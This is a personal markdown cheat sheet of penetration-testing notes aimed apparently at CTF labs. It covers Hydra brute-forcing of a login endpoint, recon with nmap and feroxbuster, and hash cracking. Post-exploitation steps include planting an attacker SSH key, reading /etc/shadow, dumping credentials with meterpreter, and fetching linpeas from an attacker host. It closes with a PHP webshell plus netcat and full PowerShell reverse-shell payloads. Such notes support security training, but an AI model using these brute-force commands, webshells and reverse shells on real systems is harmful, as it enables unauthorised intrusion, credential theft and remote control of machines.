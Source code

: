 # InfoSec notes

## Hydra

### HTTP Post

Example: Brute-force `admin` login of the OWASP Juice-Shop

Authentication `POST` request looked like this in Browser DevTools

```shell
curl 'http://10.10.114.54/rest/user/login' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H 'Accept: application/json, text/plain, */*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://10.10.114.54/' -H 'Content-Type: application/json' -H 'Connection: keep-alive' -H 'Cookie: io=5yIoLc2JuE6AcrUbAAAA; language=en; cookieconsent_status=dismiss' --data-raw '{"email":"hello@example.com","password":"asdf"}'
```

with response 401 `Invalid email or password.`

This converts to `hydra` as follows

```bash
# -V verbose
# `-l admin@juice-sh.op` the admin's email
hydra -v -V -l admin@juice-sh.op -P /usr/share/wordlists/rockyou.txt 10.10.114.54 http-post "/rest/user/login:{\"email\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:Invalid email or password."

# general layout (note: single user -l vs user list -L, same for password)
#  hydra -L <USER> -P <Password> <IP Address> http-post “<Login Endpoint>:<Request Body>:<Error Message>”
```

## Feroxbuster

`feroxbuster -u http://10.10.80.188 --no-recursion -vv --wordlist /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt`

## Tools for cracking RSA

- [RsaCtfTool](https://github.com/Ganapati/RsaCtfTool)
- [rsatool](https://github.com/ius/rsatool)

## Share files with Kali VM

[gofile](https://gofile.io/uploadFiles)

## GPG

```bash
gpg --import private.key
gpg --decrypt encrypted.file > plain.txt
```

## Hash cracking

```bash
wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py
python3 hash-id.py < HASH_FILE

gzip -d /usr/share/wordlists/rockyou.txt.gz
# Note: standard hash types might have prefix `raw-` e.g. format=raw-md5
sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=FORMAT HASH_FILE

john --list=formats | grep -i md5
```

## Resources

- [spawning a TTY shell in many languages](https://netsec.ws/?p=337)
- [unix binaries to bypass security](https://gtfobins.github.io/#+sudo)
- [file endings in linux](https://lauraliparulo.altervista.org/most-common-linux-file-extensions/)

## Recon + Privilege Escalation

In CTFs there is rarely any negative consequence, so going into full offensive is fine.

### external

- open/filtered ports
- services on ports
- find HTTP endpoints

```bash
# portscan + service detection
nmap -A -sV -p- $IP
# alternative with Metasploit
msfdb init
msfconsole
db_nmap -A -sv -p- $IP

# HTTP endpoints
curl $IP/robots.txt
feroxbuster -u http://10.10.80.188 --no-recursion -vv --wordlist /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
```

### internal

i.e. after getting a shell on the target

- stabilize shell
  - `whoami`
  - add attacker's ssh key to `authorized_keys`
- system infos
- current sudo privileges
- services + processes
- service + package versions
- usernames + credentials
- files with SUID or SGID
- cronjobs

What we're looking for:

- root access
- credentials
- further vulnerabilities (with the ultimate goal of root access)

```bash
# system infos
hostnamectl
# alternative:
uname -a

# own permissions
sudo --list

# services + processes
less ~/.bash_history # also bashprofile, bashrc, bash_aliases
ps -ef

# versions
sudo -V
apt list --installed

# usernames + credentials
less /etc/passwd
less /etc/shadow
# with metasploit meterpreter
load kiwi
creds_all

# check for known vulnerabilities
searchsploit <systeminfo / services>

# backups, configs, logs
find / -type f -name '*.log' 2>/dev/null
find / -type f -name '*.bak' 2>/dev/null
find / -type f -name '*.conf' 2>/dev/null
# if everything fails to find the flag, search all file contents
find / -type f -exec cat {} \; | grep -E 'thm{'
find / -type f -perm -u=s 2>/dev/null

# cronjobs
cat /etc/crontab

# swiss-army knife
# on attacker machine
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
python3 -m http.server 8000
# on target machine
wget ${ATTACKER_IP}:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

## swiss-army knife 2 - LinEnum.sh
# analog to linpeas.sh
```

## Payloads

### PHP

#### Webshell

upload file to the server

`echo '<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>' > php-webshell.php`

#### Linux

**reverse shell**
`http://<RHOST>/uploads/php-webshell.php?cmd=nc <LHOST> <LPORT> -e /bin/bash`

#### Windows

**reverse shell**
exchange `LPORT`, `LHOST`, `RHOST`

```http
http://RHOST/uploads/php-webshell.php?cmd=powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<LHOST>%27%2C<LPORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

### RDP Remote Desktop Protocol

`xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.1.202 /u:Administrator /p:'password'`
Note: it takes a while (~5min) on the VMs to initialize RDP
